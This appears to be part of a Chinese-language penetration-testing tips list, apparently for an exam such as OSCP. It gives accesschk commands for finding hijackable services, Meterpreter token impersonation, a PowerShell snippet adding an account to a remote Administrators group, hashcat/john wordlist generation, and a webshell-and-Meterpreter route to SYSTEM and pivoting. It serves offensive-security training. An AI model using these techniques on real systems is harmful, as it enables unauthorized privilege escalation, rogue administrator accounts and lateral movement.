 

### **18. 想检查你可以开启哪些服务（劫持服务提权）?**

```
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\\Users" * /accepteula
```

### **19.  寻找静态编译的工具?**

https://github.com/ernw/static-toolbox

https://github.com/andrew-d/static-binaries

### **20. 获取SeImpersonate?**

使用meterpreter incognito:

```
load incognito
list tokens -u
impersonate_token <high privileges token>
```

使用meterpreter incognito如果你获得的令牌在域里，你可以转移到该AD用户有本地管理权限的其他目标。

利用获取的令牌远程添加用户：

```powershell
$Computername = <Your target>
$Username = <Your account>
$GroupName = "Administrators"
$DomainName = $env:USERDOMAIN
$Group = [ADSI]"WinNT://$ComputerName/$GroupName,group"
$User = [ADSI]"WinNT://$DomainName/$Username,user"
$Group.Add($User.Path)
```

或者使用 [JuicyPotato](https://ohpe.it/juicy-potato/)!

### **21. 想使用hashcat和John的伟大规则列表在本地生成自定义词表?**

```
hashcat --force <wordlist> -r /usr/share/hashcat/rules/dive.rule --stdout >> out.wl
john --wordlist=<wordlist> --rules --stdout > out.wl
```

您也可以使用这个[字典](https://github.com/NotSoSecure/password_cracking_rules)。

### **22.  努力获得NT系统?**

请记住，您有 **1** 次机会使用 Metasploit/Meterpreter，所以您为什么不直接使用。

选择用来获得AD的网络入口点的webshell是相当有用的，因为它允许我使用meterpreter快速获得特权，然后用chisel和naabu进行透视和扫描。

# **Conclusion**
